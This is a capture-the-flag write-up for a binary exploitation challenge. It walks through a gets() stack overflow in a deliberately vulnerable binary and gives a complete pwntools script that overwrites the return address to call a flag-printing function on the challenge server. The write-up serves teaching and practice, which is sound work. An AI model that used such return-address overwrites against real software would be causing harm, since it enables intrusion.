




## **Gr33t1ng5_Pr0f3550r_F@lk3n**

### **Challenge Information**

<p align="center">
  
</p>

#### **Challenge Files**

[Gr33t1ng5_Pr0f3550r_Flk3n](assets/gr33t1ng5_pr0f3550r_f@lk3n/Gr33t1ng5_Pr0f3550r_Flk3n)

### **Solution**

For this challenge, we are only given a binary file, so the first thing I did was put it into [dogbolt.org](https://dogbolt.org/), which gave me the binary decompiled by a bunch of decompilers. In particular, I looked at the one from [BinaryNinja](https://dogbolt.org/?id=38da4a18-aaba-4d5a-b319-b2f9293a8f3e#BinaryNinja=156). There was about 170 lines of code, but the most interesting were lines 145-163, which I have attached here: 
```
int32_t main(int32_t argc, char** argv, char** envp)
{
    setvbuf(__TMC_END__, nullptr, 2, 0);
    printf("LOGON: ");
    char buf[0x10];
    gets(&buf);
    puts(0x401318);
    return 0;
}

void joshua() __noreturn
{
    char var_28[0x18];
    fread(&var_28, 1, 0x20, fopen("flag.txt", "r"));
    puts("\nGREETINGS PROFESSOR FALKEN.\n");
    puts(&var_28);
    exit(1);
    /* no return */
}
```
First, there is `main()` function, which is likely what happens when the binary is ran in the server from the netcat connection provided in challenge information. Next, I notice the function `joshua()`, which prints the flag when it gets called. So in order to get the flag, I must somehow get `joshua()` to run.

We notice that `main()` calls `gets(&buf)`, which can allow stack overflow related exploits. We notice that the memory address it writes to is originally the memory address of `buf`, which is a local variable with `[0x10]`, or 16 bytes. Since it is the only local variable, we can assume that the bytes of `buf` would overflow into RBP as it has the next highest memory address, then into RIP, which is what we want to overwrite. RIP is the instruction pointer, which basically tells the computer what to run next after `main()` is finished. Since we want `joshua()` to run after `main()` is done, we just have to make our payload long enough to allow us to overwrite RIP with the memory address of `joshua()`.

First, we want to run `file Gr33t1ng5_Pr0f3550r_Flk3n`. This allows us to determine the type of executable this binary is, which would determine how many bytes RBP is.



We can see that Gr33t1ng5_Pr0f3550r_Flk3n is a 64-bit executable, x86-64, which means the RBP will be 8 bytes long. We also see that the file is not PIE. Now we just need to find the memory address of `joshua()`. We can do this by running this command `nm Gr33t1ng5_Pr0f3550r_Flk3n | grep "joshua$"`.



From here, we can see `joshua()`'s memory address is 0000000000400518. Now we are ready to craft our payload. Our payload would be first 16 bytes worth of "A", which would fill up `buf`. Then, it would be another 8 bytes of "A" to get us out of RBP. Note that we can rewrite RBP to whatever we want it to be as we only need to get `joshua()` to run and we don't care if things fall apart after the flag is printed. `joshua()` also has `__noreturn`, so it wouldn't matter anyways. Finally, we will add `joshua()`'s memory address as a 64-bit byte string, which we could do in python by doing `p64(joshua_addr)`. Then we can send the payload to the netcat server and get our flag. Thus, our script is:

[solution.py](assets/gr33t1ng5_pr0f3550r_f@lk3n/solution.py)
```
from pwn import *

host = "134.122.5.152"
port = 9001
p = remote(host, port)

p.recvuntil(b"LOGON: ")

padding = b"A"*24
joshua_addr = 0x400518
payload = padding + p64(joshua_addr)
p.sendline(payload)

print(p.recvall(timeout=5).decode(errors='ignore'))
p.close()
```

Running the script gives us this:



We have successfully gotten the flag. 

The flag is: `NICC{f4lk3N_10g1N}`